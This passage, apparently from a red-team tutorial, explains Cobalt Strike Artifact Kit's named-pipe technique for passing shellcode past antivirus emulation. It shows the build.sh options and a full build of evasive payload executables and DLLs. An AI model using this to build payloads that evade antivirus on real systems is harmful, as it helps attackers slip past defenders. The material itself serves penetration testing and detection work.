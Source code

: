 
First, `sprintf` is used to create a pseudo-random pipe name called _\\.\pipe\netsvc\X_ (where X is a random integer).  `server_thread` will start a new named pipe server and copy the shellcode buffer into it.  `client_thread` will read the shellcode from the pipe and then call those same spawn & free functions.  So, the only difference between bypass-template and bypass-pipe is that memcpy is replaced with named pipes.  The idea being that AV engines cannot emulate this process.

Of course, there is some scope for detecting other aspects of this specific bypass technique, such as the pipe name.  That is, of course, trivial to change here.

The Artifact Kit is designed to be built on Linux via the included `build.sh` script.  Running it without any arguments will show the usage.
```
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact> ./build.sh
[Artifact kit] [+] You have a x86_64 mingw--I will recompile the artifacts
[Artifact kit] [-] Missing Parameters:
[Artifact kit] [-] Usage:
[Artifact kit] [-] ./build <techniques> <allocator> <stage size> <rdll size> <include resource file> <stack spoof> <syscalls> <output directory>
[Artifact kit] [-]  - Techniques       - a space separated list
[Artifact kit] [-]  - Allocator        - set how to allocate memory for the reflective loader.
[Artifact kit] [-]                       Valid values [HeapAlloc VirtualAlloc MapViewOfFile]
[Artifact kit] [-]  - Stage Size       - integer used to set the space needed for the beacon stage.
[Artifact kit] [-]                       For a 5K   RDLL stage size should be 296948 or larger
[Artifact kit] [-]                       For a 100K RDLL stage size should be 424948 or larger
[Artifact kit] [-]  - RDLL Size        - integer used to specify the RDLL size. Valid values [0, 5, 100]
[Artifact kit] [-]  - Resource File    - true or false to include the resource file
[Artifact kit] [-]  - Stack Spoof      - true or false to use the stack spoofing technique
[Artifact kit] [-]  - Syscalls         - set the system call method
[Artifact kit] [-]                       Valid values [none embedded indirect indirect_randomized]
[Artifact kit] [-]  - Output Directory - Destination directory to save the output
[Artifact kit] [-] Example:
[Artifact kit] [-]   ./build.sh "peek pipe readfile" HeapAlloc 361000 5 true true indirect /tmp/dist/artifact
```
  

It looks a bit scary at first, but each option is explained in the help.  You can also review the README.md file inside the artifact kit directory for more information.  Let's build a new set of payload templates using the pipe technique and VirtualAlloc (keeping the other options as false/none).
```
ubuntu@DESKTOP-3BSK7NO /m/c/T/c/a/k/artifact> ./build.sh pipe VirtualAlloc 296948 5 false false none /mnt/c/Tools/cobaltstrike/artifacts
[Artifact kit] [+] You have a x86_64 mingw--I will recompile the artifacts
[Artifact kit] [*] Using allocator: VirtualAlloc
[Artifact kit] [*] Using STAGE size: 296948
[Artifact kit] [*] Using RDLL size: 5K
[Artifact kit] [*] Using system call method: none
[Artifact kit] [+] Artifact Kit: Building artifacts for technique: pipe
[Artifact kit] [*] Recompile artifact32.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact32svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svc.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.x64.dll with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64big.exe with src-common/bypass-pipe.c
[Artifact kit] [*] Recompile artifact64svcbig.exe with src-common/bypass-pipe.c
[Artifact kit] [+] The artifacts for the bypass technique 'pipe' are saved in '/mnt/c/Tools/cobaltstrike/artifacts/pipe'
```
  